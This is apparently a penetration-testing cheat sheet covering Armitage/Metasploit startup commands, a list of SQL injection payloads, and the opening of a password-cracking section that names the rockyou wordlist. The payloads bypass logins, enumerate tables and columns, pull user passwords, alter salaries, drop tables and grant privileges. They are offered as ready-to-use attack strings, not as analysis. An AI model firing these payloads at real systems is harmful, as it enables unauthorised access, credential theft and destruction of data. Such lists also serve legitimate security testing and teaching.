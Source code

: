 
#### [Armitage](https://www.kali.org/tools/armitage/)
GUI that supports nmap and metasploit framework functionality.  
Must first be installed with `sudo apt install armitage`
```
> /etc/init.d/postgresql start
> sudo msfdb init
> armitage
```


#### SQL Injection

**Enumerate login details for all users**  
`'OR '1'='1`  
`true`  
`0 OR true`  
`0' OR '1'='1`

**Retrieve database version, user account name, or database name**  
`'OR 1=9 union select null, version() #`  
`'OR 1=9 union select null, user() #`  
`'OR 1=9 union select null, database() #
`
**Retrieve database table names**  
`'OR 1=9 union select null, table_name from information_schema.tables #`

**Retrieve the columns names for a table in the databse**  
`OR 1=9 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name='users' #`

**Retrieve user passwords from the 'users' table**  
`'OR 1=9 union select null, concat(user,0x0a,password) from users #`

**Update table**  
`'; UPDATE <table> SET <column> = <value> WHERE <row> = <value> --`  
e.g.  
`'; UPDATE employees SET salary = 1234567 WHERE last_name = 'Smith' --`

**Drop table**  
`'; DROP TABLE <table> --`  
e.g.  
`'; DROP TABLE access_log --`

**Grant privileges**  
`'; GRANT all ON <table> TO <user> --`


### Password cracking

#### Wordlists
A comprehensive wordlist is essential, regardless of which password cracking tool you use. Some popular choices include:  
* `/usr/share/wordlists/rockyou.txt`

